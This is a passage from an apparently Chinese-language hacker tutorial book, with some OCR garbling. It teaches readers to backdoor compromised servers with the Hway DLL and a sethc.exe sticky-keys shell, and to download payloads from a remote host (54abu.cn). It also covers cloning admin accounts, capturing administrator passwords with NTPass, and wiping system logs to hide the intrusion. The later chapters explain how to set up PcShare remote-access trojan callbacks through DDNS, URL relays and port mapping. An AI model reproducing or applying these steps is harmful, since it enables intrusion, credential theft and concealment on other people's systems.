

图2.24


图2.25

因为服务器可比普通肉鸡要珍贵得多。还有一点，针对服务器的后门在功能上要求可以低一些，最低的只需要一个 CMD 即可，但是针对一些特定的功能还是需要的，比如开启 3389、获得 CMDSHELL 等功能。


图2.26


图2.27

HWay 就是符合条件的一款优秀的服务器 DLL 后门，它只有一个 DLL 文件，利用 svchost.exe 启动，能够很好的隐藏进程。利用 sniff 的方式接受命令，实现了无端口，也可以指定 Hway 监听 133 端口接受正向连接。同时它还支持正向和反向两种连接方式，支持文件上传、下载、屏幕截图、进程查杀等。


图2.28

使用门进程保护，但只在 DLL 被退出时才把 dll 注入到 explorer.exe 进行进程保护，降低了系统的消耗。它本身不开端口，而是复用系统进程所开启的任意一个端口，比如 80、135、139、445 等，这使得它很容易穿透防火墙，目前还没有工具能够发现它。

Hway.dll 就是后门的主安装文件，只需要使用前面所介绍的上传方法将它上传到肉鸡的任意一个目录，然后返回到溢出得到的 CMDSHELL 下，因为 DLL 木马需要在 CMD 下使用 Rundll32 来进行安装。它的安装命令格式为：

```
rundll32 hway.dll,install [是否监听133端口:1=监听,0=不监听] [激活码,默认hway]
```

比如 `rundll32 hway.dll,install 1 123456` 的意思就是主安装文件为 hway.dll，监听 133 端口以提供正向连接，激活码为 123456。安装命令执行完后是没有任何反应的，如图 2.26。那么如何来判断是否安装成功呢？我们使用以下命令就可以查看后门的安装日志信息：

```
type C:\WINDOWS\system32\hwaylogV3.txt
netstat -an
```

## 第二章 秒杀入侵的溢出攻击

服务器是否开启了133端口等待连接，如图2.28，至此后门就安装完毕了。卸载的时候更是相当简单，只需要执行 `Rundll32 lrmondll.dll,uninstall` 命令就行了，不用重启计算机。

安装完毕后，我们在本地电脑中打开一个CMD窗口，使用CD命令切换到NC的目录，输入 `nc -vv 192.168.0.100 133`，就可以使用正向连接的方式连接到肉鸡的133端口上，肉鸡会返回一个“p”字符，我们就可以输入“123456”激活码了，在激活码验证成功后，安装在肉鸡上的Hway后门便会启动了，如图2.29。如果大家手头没有NC的话，也可以使用Hway的专用客户端来进行连接，利用专用的客户端能够传送文件和截图，正向连接的命令和NC连接方式是一样的。

反向连接需要先在CMD下执行Hway的专用客户端，我们直接输入 `client.exe` 命令查看它的提示信息，可以看到有三种连接方式，后面两种是反向连接方式，如图2.30。使用反向连接前请先关闭自己的防火墙，或者将 `client.exe` 设置为放行状态；也可以在防火墙上开放20082端口，因为这个端口是专用客户端固定使用的。

### 反向连接有两种连接方式：

- 1. 方法1，`client IP Port ActiveString`（自动打开本机的20082端口，port是服务器任意可以访问的端口，然后向IP、Port发送ActiveString让服务器反向连接本机20082端口，ActiveString是激活码）
- 2. 方法2，`client IP Auto ActiveString`（自动打开本机的20082端口，扫描对方开放的端口，然后发送ActiveString，让服务器反向连接本机20082端口，ActiveString是激活码）

我推荐大家使用方法二的连接方式，它可以自动扫描对方所开放的端口，然后自动连接。在CMD中输入 `client 192.168.0.100 auto` … 图2.32 **123456** 命令就可以自动扫描肉鸡所开放的端口，然后自动在本机监听20082端口，并等待返回的CMDSHELL了，如图2.31。

成功连接Hway后门会出现“cmd>”的提示，我们在后边输入Hway的命令即可，比如输入**sysinfo**命令可以查看肉鸡的CPU和内存信息。输入**open3389**命令可以打开肉鸡的3389终端服务，这样就不用老在CMD里摸黑混了。如果不想将终端服务开放在3389端口上，只需要输入**open3389 8000**命令就可以在8000端口上打开肉鸡的终端服务了，当然还需要重新启动肉鸡才能加载我们修改后的参数。输入`http://54abu.cn/mm.exe -mm.exe`命令是用来下载文件用的，可以将你空间中保存的文件下载到肉鸡中，默认情况下是保存在“C:\WINDOWS\system32\”目录中的，如图2.32。

图2.33 输入**shell**命令就可以进入CMDSHELL状态，就跟直接TELNET到肉鸡上一样，如果想退出CMDSHELL返回到Hway的话，只需要输入**exit**命令就行了。

这款后门还有传送文件的功能，比如我们输入`download c:\mm.exe`命令就可以下载肉鸡C盘中的mm.exe，程序会询问你保存到本地电脑的哪个目录，还会显示文件大小和接收状态。输入`upload c:\222.exe`命令就可以将文件上传到肉鸡的C盘下并保存为222.exe，程序会询问你要发送哪个文件，还会显示文件的发送状态。如果想关闭掉肉鸡的133端口的话，只需要输入**close**命令就行了，当你再使用NC或者专用客户端就连接不到肉鸡的133端口了，需要肉鸡重新启动后才能重新开放，关闭后建议再连接一次，以确定该端口已经关闭（由于多线程的原因，要连续关闭两次），如图2.33。

输入**pslist**命令可以列出当前肉鸡所运行的进程信息，列表分为两列，左边为进程名，右边为PID号。通过这个列表可以很清楚地看到当前肉鸡上运行了那些程序，如图2.34。如果想关闭某个程序的话，只需要知道它的进程名，然后找到它所对应的PID号，输入**Pkill 908**命令就可以关闭inetinfo。

图2.34 exe这个进程了，如图2.35。最独特的是这款后门还可以给肉鸡截图，输入`cap`命令即可，它会先保存在肉鸡上，然后询问你是否接收图片，输入“y”确认信息后就开始接收了。由于截图后保存的文件为BMP格式，所以文件比较大，几M大算是正常的了，所以要注意网速的问题。这款后门还带有嗅探功能，嗅探http表单post出去的密码和ftp密码，并记录在`system32/snifflog.log`下。要想查看嗅探到的数据包，只需要在CMDSHELL中执行`type c:\windows\system32\snifflog.log`就行了。

图2.35 如果大家感觉Hway这个后门程序的配置和使用特别繁琐的话，那我就再给大家介绍一种后门，保证不会被查杀，因为它是使用系统中自带的CMD来制作后门的。首先到肉鸡的“C:\WINDOWS\system32\”目录下复制`cmd.exe`到C盘根目录下，然后改名为“sethc.exe”，这一步是为后门做好准备。然后再将改好名的“sethc.exe”复制到“C:\WINDOWS\system32\dllcache\”目录下，由于在这个目录下早就有“sethc.exe”这个文件，所以需要覆盖，如图2.36。“sethc.exe”为系统文件，一般在开启Windows文件保护的情况下会弹出恢复窗口，只需要先点击“取消”不用插入CD盘恢复，然后点击“是”确认后即可成功替换，如图2.37。这样一个SHIFT后门就制作好了，是不是非常简单呢？那么该如何使用这个后门呢？只需要在连接3389的时候按下SHIFT键五次就可以调出“sethc.exe”这个程序，由于我们已经使用`cmd.exe`代替了它，所以按五下SHIFT键后就可以调用CMD了，而且是系统最高权限，如图2.38。

图2.36

## 2.5 抢夺系统帐号

只给肉鸡种上后门木马还不算完，如果每次登录肉鸡的时候总要连入Hway后门新建一个管理员帐号的话那样太麻烦了，最好是能有一个让管理员看不出来的管理员帐号。

帐号，这就要用到克隆了。克隆就是将系统中一个不属于管理员组的帐号具有与管理员一样的权限，而且还要让其他人无法察觉出来。我们只要登录这个不属于管理员组的帐号，也就是克隆的帐号，就可以享受到管理员的待遇，至高无上的系统权限了。

在克隆帐号前必须把要克隆的帐号修改密码，比如我们要将 Guest 克隆成 Administrator 帐号，就先要把 Guest 的密码更改掉，因为 Guest 在克隆完毕后是不能更改的。另外，我们尽量在 CMD 下进行更改，以防止意外情况发生。

如图 2.39，打开一个 CMD 窗口，使用 CD 命令切换到克隆工具（Clone.exe）所在的目录下，直接输入 Clone.exe 就可以看到该工具的提示信息。例如要将 Guest 帐号克隆成 Administrator 帐号，输入 Clone.exe Guest Administrator 即可。工具会自动将 Administrator 的 F 键值覆盖掉 Guest 的 F 键值，以后就可以使用 Guest 用户直接登录肉鸡的 3389 了，而且在任务管理器中显示的是 Administrator。

```
bash
Clone.exe
Clone.exe Guest Administrator
```

如果我们能够获得管理员的系统登录密码那就更好了，记得以前曾经出现过利用 gina 方式来截取管理员的帐号密码，但有些电脑上安装了 pcanywhere 等软件，会导致远程登录的时候出现故障，那怎么办呢？我给大家介绍一款可以实现无障碍截取管理员口令的工具——NTPass，它可以运行在 Windows2000/2003 系统上，只有一个 DLL 文件。

首先将“NTPass.dll”文件复制到 system32 目录下，如果是 Windows2000 系统的话，就是……

```
text
NTPass.dll
system32
```

图2.40 “C:\\WINNT\\system32\\”目录；如果是Windows 2003系统的话，就是“C:\\WINDOWS\\system32\\”目录，如图2.42。由于需要使用`rundll32.exe`来进行安装，所以我们打开一个CMD窗口，输入`rundll32 NTPass.dll,Install`命令就可以进行安装了，如图2.43，安装后没有提示信息，大家可以重新登录一次肉鸡看看是否记录下了密码，就可以确认是否安装成功了。

当管理员3389远程登录或者本机登录的时候，NTPass就会记录管理员的密码并保存在system32目录下的“eulagold.txt”文件中。我们可以使用CMD下的`type eulagold.txt`命令或者直接打开这个目录来查看，这个TXT文本文件中记录了管理员何时登录的服务器，当然还有帐号和密码信息，如图2.44。卸载它的方法也很简单，只需要在CMD中执行`rundll32 NTPass.dll,Remove`命令即可，记住还需要将“NTPass.dll”和“eulagold.txt”这两个文件清除掉才行，以防止被发现。

### 2.6 清理入侵痕迹

为了不让管理员发现自己的系统被别人入侵，而引起不必要的麻烦，我们在入侵完目标主机后都需要清理入侵而留下的各种痕迹。在清理入侵痕迹的时候要考虑你对主机做了哪些动作，动过哪些地方，哪些东西会记录下日志，这些问题都要搞清楚，不然的话就无法知道该清理哪些日志。一般来说Windows的系统日志、IIS日志、FTP日志等是必须要清除的。由于清理日志的工作比较繁琐，所以我直接给大家介绍两款工具：第一个工具是在CMD下

图2.41

图2.42

图2.43

运行的，我们打开一个 CMD 窗口，使用 CD 命令切换到“日志清除器”（cl）所在的目录，直接执行 cl 就可以返回日志清除器的使用说明了，工具给出了几种清理方案，如图2.45：

```
1. `cl -LogFiles 127.0.0.1`  // 清理指定IP地址的日志（本机）
2. `cl -LogFiles 127.0.0.1 "c:\winnt\system32\LogFiles"`  // 自定义日志文件的目录
3. `cl -filter on/off`  // 开启或关闭TCP/IP筛选
4. `cl -eventlog ALL`  // 清理所有的系统日志
5. `cl -eventlog Security`  // 清理系统的安全性日志
```

一般情况下，使用第一条和第四条搭配，就可以轻松的清理掉入侵痕迹了，如图2.46。

第二个工具也是运行在 CMD 窗口下的，它可以清理使用远程桌面进行连接的日志信息。如果大家在肉鸡上再登录其他的3389肉鸡的话，那还是有必要清理一下的。直接执行 **Clear3389.exe** 就可以获得工具的使用说明，如图2.47。首先使用 **clear3389 -a** 命令查看一下本机的所有3389登录日志，然后再使用 **clear3389 -d MRU2** 命令即可清除“数值名称”为“MRU2”的3389登录日志信息，最后提示“RegDeleteValue MRU2 success!”就代表清除成功了，如图2.48。

## 第三章 小菜进阶之木马使用大全

不管大家使用什么方法来抓肉鸡，在抓到肉鸡后都会给它种上木马，方便以后对肉鸡进行控制，要不然肉鸡重新启动或者更换 IP 地址后我们就找不到它了。由此可见，能够熟练的使用各种木马对小菜们来讲是非常重要的。

木马的种类有很多，比如远程控制型木马、系统木马（类似 rootkit 后门）、下载者木马、键盘记录木马、专用盗号木马、网页木马、脚本木马等等。其中小菜们使用最广泛的，也是给肉鸡安装最多的就是远程控制型木马了，在给肉鸡安装上这种木马后，我们控制肉鸡进行各种操作就和使用自己的电脑差不多，不论是打开文件，还是上网浏览、下载等都可以轻易的实现。

> **小知识：什么是远程控制**

远程控制就是在网络上由一台电脑（主控端 Remote/客户端）远距离控制另一台电脑（被控端 Host/服务器端）的技术。当操作者使用主控端电脑控制被控端电脑时，就如同坐在被控端电脑的屏幕前进行操作一样，可以启动被控端电脑的应用程序，可以使用被控端电脑的文件资料，甚至可以使用被控端电脑的外部设备（打印机、摄像头等），就像我们利用遥控器遥控电视的音量、变换频道或者开关电视机一样。不过，有一个概念需要明确，就是主控端电脑只是将键盘和鼠标的指令传送给远程电脑，同时将被控端电脑的屏幕画面通过通信线路回传过来。

### 3.1 远控木马的分类

远程控制类木马根据连接方式的不同可以分为正向连接方式和反弹连接方式。正向连接方式就是木马在肉鸡上开启一个端口，随时等待远控木马的客户端去连接，如图 3.1。当然也不是任何人都可以连接的，通常情况下都会有密码验证，只有正确输入密码后，才能成功连接。不过后来随着人们安全意识的提高，服务器及个人电脑都广泛的使用了防火墙屏蔽掉了非法端口的数据传输，也就导致了这种情况下无法正常连接到木马的服务端，这样一台肉鸡就丢失了。因此，这种正向连接的方式目前已经没什么作用了，人们使用更多的则是反弹连接方式。

图 3.1

反弹连接方式就是木马在肉鸡上并不开放端口，而是间隔性的去主动尝试连接木马客户端的 IP 地址，如图 3.2。当木马的客户端程序正常运行并准备好连接的时候（也就是打开了一个监听的端口，等待客户端的连接），安装在肉鸡中的服务端便会向客户端打开的这个端口发起连接，连接成功后就等待客户端发出的各种控制命令。

务端是如何知道控制端的IP地址的呢？这是因为我们在配置远控木马服务端的时候已经设置好了反弹到哪个IP地址。这种反弹连接方式利用的是大多数防火墙存在的一个安全弱点，就是防火墙对于外部传入的数据往往会进行非常严格的过滤，但是对于内部连出的数据却往往疏于防范。于是，与正向连接方式的木马相反，反弹连接方式的木马服务端（被控制端）使用主动连接，而客户端（控制端）则使用被动连接，木马定时监测控制端的存在，发现控制端上线就会立即主动地连接控制端打开的端口，而且为了隐蔽起见，控制端的被动端口一般开在80，这样即使用户使用端口扫描软件检查自己的端口，发现的也是类似“TCP 192.168.1.100:1026 202.102.128.68:80 ESTABLISHED”的情况，稍微疏忽一点就会以为是自己在浏览网页，防火墙也会这么认为的。我想没有哪个防火墙会设置成不允许用户对外连接80端口吧！对于一些能够分析报文、过滤TCP/UDP的防火墙，反弹连接型木马同样有办法对付，简单地说，控制端使用80端口的木马完全可以真的使用HTTP协议将传送的数据包含在HTTP的报文中，总不至于防火墙会智能到可以分辨通过HTTP协议传送的究竟是网页还是控制命令和数据吧。

图3.2

### 3.2 PcShare 远控木马介绍

提到反弹连接型的木马就不能不说灰鸽子，它是国内非常著名的一款反弹型的远控木马，其丰富而强大的功能、灵活多变的操作、良好的隐藏性使得其它的一些木马后门程序都相形见绌。不过在今年3月21日，由于灰鸽子工作室承受不住外界的种种压力而宣布了全面停止对灰鸽子远程管理软件的开发、更新和注册。不过还好，除了灰鸽子外，国内又相继开发出了很多优秀的反弹型远控木马，比如PcShare、上兴、小熊远控、炽天使、NS远控、网络红娘等等。我们就从其中挑选一款比较有代表性的远控类木马（PcShare）来给大家讲解一下它是怎样配置和使用的。

PcShare最初是由20NT安全小组出品的，后来由“无可非议”独立开发了，它支持Win2000/WinXP/Win2003/Vista等操作系统，具有极佳的系统兼容性，同时服务端的文件尺寸在全功能状态下只有50K左右，可谓是短小精悍。PcShare还有高效率穿透防火墙功能，采取了独特的技术，提供了自动辨别和人工设置的方式，可以通过默认浏览器、SVCHOST.EXE来穿透防火墙；还具有一定的自我保护功能，比如隐藏了本身的文件和进程，隐藏了通信的连接（也就是使用“netstat -an”查看不到连接），当自身服务被删除或禁止时，被控制端会自行恢复。打开PcShare，其主界面如图3.3所示，上面一排快捷功能图标，让我们控制起来得心应手。中间为服务端的上线列表，服务端上线后，其IP地址、版本、计算机名、操作系统、CPU频率、内存容量等信息都会显示出来，还可以根据这些信息排列顺序，帮助我们找出最想要的肉鸡。如果在PcShare的目录中放入IP地址库的话，还可以自动显示出当前肉鸡来自于哪个地区，以方便筛选。默认情况下上线肉鸡的分组为“普通客户组”，我们可以根据需要调整肉鸡在哪个分组里，想建立新的分组只需要在它的旁边点击右键进行添加、删除分组即可，如图3.4。在上线列表框的下侧还有两个选项，第一个为“客户连接信息”，什么时间肉鸡连接到本机的PcShare上，在这里都会有记录的，而且还会显示其他一些提示信息；第二个为“文件下载管理”，可以将下载任务放到这里，它会自动按照顺序一个个的下载，就跟使用迅雷一样方便。我们在PcShare的最右下角还可以看到当前一共连接的肉鸡数量和当前分组连接的肉鸡数量。

在第一次启动PcShare的时候，需要对系统参数进行一下配置。点击上面一排功能图标中的“参数设置”进入到配置界面，“视频监控图像尺寸”是用来设置在控制肉鸡的摄像头时以何种尺寸显示，一般设置为320X240即可，“屏幕监控资源占用”和“屏幕监控图像质量”可以根据我们电脑和网速的条件来设置，如果电脑配置不太好或者网速很卡的情况下可以将这两个参数设置为“低”，“侦听端口”就是你在本机上开放哪个端口来等待肉鸡的连接，由于PcShare完全使用了HTTP隧道，所以将端口设置80的话，就相当于你的电脑成了一台WEB主机，而肉鸡则是一台访问你这个WEB站点的客户机了。“连接密码”是为了保密而设计的，当肉鸡连接到本机后需要通过连接密码验证才能正常连接，这样即使有人将木马服务端中的上线IP地址更改成自己的，他也偷不走你的肉鸡，如图3.5。

注意：如果大家想使用连接密码功能的话，需要先在系统参数设置中设置好连接密码，然后再去生成服务端。配置完系统参数后需要重新启动PcShare才能加载参数。

### 3.3 PcShare 公网上线

点击 PcShare 上面一排功能图标中的“创建客户端”进入生成服务端的界面，被控制端的配置分为三类：通信连接相关设置、创建服务的参数设置、特性参数设置。

#### 3.3.1 第一种方法：固定 IP 上线

如果你的 IP 地址是公网固定的 IP 地址，那么就可以直接在配置服务端的“IP 地址”中输入你的 IP 地址，这样设置后不管肉鸡是内网还是公网环境都能连接到你的客户端上，因为你就相当于一个 WEB 服务器，有公网固定的 IP 地址，那么全世界的电脑都可以凭借这个 IP 地址找到你并且连接你，如图 3.6。如果不知道当前你的外网 IP 地址的话，可以访问 IP138（http://www.ip138.com）来获得，如图 3.7。这种方法适合于两种情况：一、你确实有固定的外网 IP 地址；二、虽然你只有内网的固定 IP 地址，但是你所要控制的肉鸡和你是在同一个内网当中（比如一个学校的校园网），因为和你在同一内网中的肉鸡并不需要到公网上去寻找你，直接连接你的内网 IP 地址就可以找到你了。这种方式的上线线路为：肉鸡------>控制端。

#### 3.3.2 第二种方法：普通域名上线

那么控制端就只能使用固定的 IP 地址吗？那可不一定，能获得 IP 地址的方式有很多，其中通过域名获取就完全可以，只需要在配置服务端的“IP 地址”中输入你所设置的普通域名（例如：ip.54abu.cn）即可，如图 3.8。因为域名可以通过 DNS 解析为 IP 地址，通过 PING 命令我们可以轻松获得一个域名所对应的 IP 地址，如图 3.9。这样的话，在配置服务端的时候输入域名，让服务端通过解析域名来获得 IP 地址然后寻找客户端，在客户端更换 IP 地址的时候只需要更新域名所对应的 IP 地址就行了。这种方法适合于你自己拥有独立的普通域名，不管是 COM、NET，还是 CN 都可以，还有就是你的 IP 地址不是经常变换，只需要在更换了 IP 地址后到自己注册域名的 DNS 管理平台修改域名的 A 记录即可，如图 3.10。这种方法的上线线路是：肉鸡------>普通域名------>解析 IP 地址------>控制端。

> ### 小知识：什么是DNS
> DNS（Domain Name System，域名系统）是域名解析服务器的意思。DNS 是因特网的一项核心服务，作为将域名和 IP 地址相互映射的分布式数据库，使人们更方便访问互联网，而不用记住机器可直接读取的 IP 串。其作用是把域名转换为网络可识别的 IP 地址。

> ### 小知识：什么是A（Address）记录
> A 记录用于指定主机名（或域名）对应的 IP 地址记录。用户可以将该域名下的网站服务器指向自己的 web server，也可设置二级域名。通俗地说，A 记录就是服务器的 IP 地址；域名绑定 A 记录就是告诉 DNS，当输入域名时应导向该 A 记录对应的服务器。

#### 3.3.3 第三种方法：动态域名上线

如果客户端运行在普通 ADSL 宽带环境并使用动态 IP 地址，不需要每次都手动修改 IP。普通域名更新生效通常需要一定时间，因此频繁改 IP 并不现实。这时可使用动态域名：捕获用户每次变化的 IP 并与域名对应，其他用户即可通过域名访问。只需在配置服务端“IP 地址”处填写申请到的动态域名地址（例如 `casper3389.3322.org`）即可。该方法上线线路示意：肉鸡 -> 希网动态域名 -> 解析 IP 地址 -> 控制端。

> ### 小知识：什么是动态域名（DDNS）
> DDNS（Dynamic Domain Name Server）是动态域名服务的缩写，动态域名用于将用户的动态 IP 地址映射到固定域名。

射到一个固定的域名解析服务上，用户每次连接网络的时候，客户端程序就会通过信息传递把该主机的动态IP地址传送给位于服务商主机上的服务器程序，服务器程序负责提供DNS服务并实现动态域名解析。

给大家介绍一款不错的动态域名，就是希网的3322域名，域名记起来很方便（*.3322.org），而且客户端很精爽小巧。首先我们到官方网站（http://www.3322.org/dyndns/register）上注册一个账号，如图3.12，申请的帐号是需要邮件进行验证的，并且会把密码发送到你的邮箱中，如图3.13。使用申请到的帐号和密码登录网站，点击“管理域名”，如图3.14，申请一个动态域名，比如我就随便申请（casper3389.3322.org）这个域名了，如图3.15。然后我们再从“客户端下载”（http://www.3322.org/dyndnspage/client.html）中下载一个Windows版本的希网动态域名客户端，如图3.16，客户端的安装非常简单，基本上一路点击NEXT就行了。

打开安装好的客户端，切换到“管理帐号”选项，填入你申请的域名、用户名和密码等信息，如图3.17；然后点击“增加”，程序就会自动添加域名信息，当状态显示“可用”的时候就表示更新成功了，如图3.18。接下来，我们切换到“参数设置”选项，可以设置客户端是否跟随机器一起启动，可以让客户端显示详细的连接日志。在“时间检测”中可以设置断线侦测的间隔时间，设置过后即使ADSL突然掉线了也会在设置好的时间间隔内更新检测是否重新更新IP地址，如图3.19。“连接接口”是设置IP地址的检测方式，一般不需要改动。切换到“查看日志”选项，在这儿可以清楚的查看客户端和服务器交换的信息，如果不能够正常使用的话，可以从这里一步步检查失败的原因，如图3.20。更新完毕后就可以使用ping命令进行检查是否是当前的外网IP地址了，如图3.21，可以看到PING出的IP地址和我通过ADSL拨号获得的IP地址相同，说明动态域名已经开始工作了。

如果我们使用域名上线或者IP地址上线，就还需要配置在本地监听的端口，这个端口是固定在服务端里面的，配置完之后就不能再更改了。一般为了隐蔽性的考虑，保留在80端口就可以。但是需要在本机上监听和服务端一致的端口才行，否则即使服务端能够通过正确的IP地址找到你，但是还会因为端口原因而连接不到你的。

#### 3.3.4 第四种方法：URL 转发上线

由于动态域名大部分是免费的，所以服务质量不能够被保证，如果哪天你的动态域名被K掉或者服务商停止提供该项服务的话，那么你的肉鸡就又重回“大自然”了，那么还有没有其他的上线方式呢？由于我们想实现的目的就是让肉鸡上的服务端能够找到客户端的IP地址和连接端口，于是后来就出现了URL转发文件更新的方法，就是将一个文件保存在网络空间上，而且必须要由一个和它所对应的URL地址（比如：http://54abu.cn/ip.txt）。其中ip.txt就是保存客户端IP地址和连接端口的TXT文本文件，当然需要在这个TXT文本文件中写入IP地址和端口等信息。使用这种转发方式需要在配置服务端的时候就“告诉”它，我们在配置服务端的“中转URL”中输入“http://54abu.cn/ip.txt”，如果已经更新好TXT文本文件的话，还可以点击“测试URL”来检测中转URL文件是否对应了当前的IP地址，如图3.22。服务端在肉鸡上运行后就会访问“http://54abu.cn/ip.txt”这个地址，从ip.txt中获得客户端的IP地址和连接端口，然后再尝试着去反弹连接过来。不用担心在更改ip.txt后服务端不去访问它，一般反弹木马中都设置有一个计时器，间隔多长的时间就会访问这个URL地址一次。

这种方法的上线线路是：肉鸡------>Web空间中的ip.txt------>获得IP地址------>控制端。

那么我们要如何更新ip.txt这个TXT文本文件呢？方法有很多，不过最终要实现的只是修改它的内容为客户端的IP地址和客户端开放的端口信息。可以使用FlashFXP等工具上传文件手工修改TXT的内容；也可以使用PcShare自带的刷新IP功能，其实它本身也是利用FTP文件传输协议进行改写TXT文件内容的。

点击PcShare上面一排功能图标中的“刷新IP”进入更新IP地址的界面，根据自己所使用的空间来填写登录信息，填好“FTP服务器地址”和所使用的“端口”，PcShare能够自动读取自身的IP地址，所以只需要在“刷新IP地址”中选择当前的外网IP地址即可，当然也可以手工填写，后面跟的端口就是服务端上线端口的参数了。“FTP文件路径”指的是更新文件的路径和名字，“用户名”和“用户密码”就是你FTP空间的帐号的密码，最后点击“刷新IP”按钮就可以开始更新IP地址，地址刷新成功后会有提示信息的，如图3.23。我们可以使用IE打开这个中转URL文件，来看看是否更新成功，其上线格式为：“IP地址:上线端口”，如图3.24。

### 3.4 PcShare 内网上线

相信有很多小菜都是一直奋斗在网吧或者局域网中，没有办法获得外网的IP地址，那么反弹类的远控木马就与他们无缘了吗？事实上在内网中也是可以上线的，接下来我们就也细看看在内网是如何上线的。

#### 3.4.1 第一种方法：端口映射法（端口转向）

网吧一般都是采用的局域网模式，整个局域网共享一个公网IP地址，这个公网IP地址通常被设置在网络最外缘的路由器上，也就相当于这台路由器拥有公网IP地址。内网中的其它主机想和外网主机交换数据的时候都需要路由器根据NAT协议进行转换，因此内网主机开放的服务（例如WEB服务）就不能被外部主机直接访问到了。为了解决这个问题后来就出现了端口映射，也就是在路由器的外网IP地址上开放一个端口，这个端口并不是连入路由器内部，而是被转向到了特定的内部主机（例如WEB服务器）上，当外网用户访问路由器特定端口（例如80端口）时，路由器就将数据再转发到内部的特定主机上（例如WEB服务器），从而使得内部主机也能够在公网开放服务。要使用端口映射的话我们需要登录路由器进行相应的一些设置才行。

> ### 小知识：什么是NAT
> 网络地址转换（NAT，Network Address Translation）被广泛应用于各种类型Internet接入方式和各种类型的网络中。借助于NAT，内网地址的“内部”网络通过路由器发送数据包时，内网地址被转换成合法的外网IP地址，一个局域网只需要使用一个IP地址即可实现内网地址网络内所有计算机与Internet的通信需求。NAT将自动修改IP报文头的源IP地址和目的IP地址，IP地址校验则在NAT处理过程中自动完成。

不同的路由器对于登录管理的方式也不相同，但是基本上都支持WEB管理，至于路由器的管理IP地址，各个品牌的路由器也不相同，不过这些在路由器的说明书上都有详细说明的。我家中使用的是TP-LINK的541G+无线路由器，我就以它为例来进行介绍了。

首先登录路由器的WEB管理（http://192.168.1.1），需要输入管理帐号和密码（默认都是admin），如图3.25。在成功登录管理界面后，打开“转发规则”中的“虚拟服务器”，虚拟服务器定义了广域网服务端口和局域网网络服务器之间的映射关系，所有对该广域网服务端口的访问将会被重定位给通过IP地址指定的局域网网络服务器。点击“添加新条目”来添加一个映射关系，如图3.26，由于在PcShare中开放的端口为80，所以这里的“服务端口号”也要填写为80，需要保持一致。“IP地址”需要填写你的电脑的内部IP地址，可以从本机的本地连接中获得，如图3.27。协议分为TCP和UDP，一般选择全部（ALL）即可。点击“保存”按钮后就可以建立这个端口映射关系，不需要路由器重新启动就可以生效了。自动返回后可以查看到当前已经建立的端口映射的各个条目，如图3.28，这时外网的80端口已经和内网我所使用主机的80端口建立了一个映射关系，外网的肉鸡就能够上线了。

- 通过使用路由器的各种上线方式如下：
  - 固定IP上线线路：肉鸡 <------> 路由器 <------> 控制端。
  - 动态域名上线线路：肉鸡 <------> 希网动态域名 <------> 解析获得路由器IP <------> 路由器 <------> 控制端。
  - 中转文件上线线路：肉鸡<------>Web 空间中的 ip.txt<------>获得路由器 IP<------>路由器<------>控制端。

### 3.4.2 第二种方法：UPNP 映射

如果大家在网吧上网而又无法得到路由器的管理密码的话，还可以考虑使用 UPNP 映射方法，因为它不需要登录路由器的管理界面就可以直接进行映射，十分方便。首先检查一下网络中的路由器是否支持 UPnP 映射。

- 1. 系统启动了 SSDP 服务，此服务就是提供 UPnP 设备的支持，如图 3.29。
2. 如果使用的是 XP SP1 系统，则需要将 ICF（网络连接防火墙）关闭；如果是 XP SP2 或者 XP SP3 系统则需要打开防火墙设置中的“例外”，将“UPnP 框架”勾选上才可以，如图 3.30。
3. 路由器支持 UPnP，并且路由器开启了 UPnP 服务。

> ### 小知识：什么是 UPnP
> UPnP（Universal Plug and Play，通用即插即用）是一组协议的统称，不能简单理解为 UPnP="自动端口映射"。在 BitComet 下载中，UPnP 包含了两层意思：

## 第三章 小菜进阶之木马使用大全

- 1. 对于一台内网电脑，BitComet 的 UPnP 功能可以使网关或路由器的 NAT 模块进行自动端口映射，将 BitComet 监听的端口从网关或路由器映射到内网电脑上。
2. 网关或路由器的网络防火墙模块开始对 Internet 上的其它电脑开放这个端口。

在以上的三个条件都具备后，打开比特精灵的 UPnP 自动端口映射工具，UPNP 映射分为两步，第一步：查找支持 UPnP 自动端口映射的设备，如图 3.31。


3.31，此过程会检测路由器是否支持 UPnP 功能。第二步：在 UPnP 设备上添加或删除端口映射，查找到 UPnP 设备后点“下一步”来到添加删除端口映射界面，在本机地址中填入内网的 IP 地址（192.168.1.100），本机端口为在内网监听的端口（80），类型选择“TCP”方式即可，动作选择“添加”，还可以对该端口填写一些描述信息，如图 3.32。

现在路由器的外部 80 端口已经被映射到了我内网电脑的 80 端口上，如图 3.33，可以通过路由器的管理界面查询到，如图 3.34。上线线路和端口映射一样，不过只是不用管理权限，时间比端口映射的要短，如果路由器重新启动就需要再次映射了。如果在网吧使用的话，在关闭 PcShare 的时候记得要使用 UPnP 自动端口映射工具将映射好的 UPNP 删除掉，不要留下任何痕迹。

使用 UPnP 的上线方式为：

```
固定 IP 上线线路：肉鸡 <------> 路由器 <------> 控制端。
动态域名上线线路：肉鸡 <------> 希网动态域名 <------> 解析获得路由器 IP <------> 路由器 <------> 控制端。
```

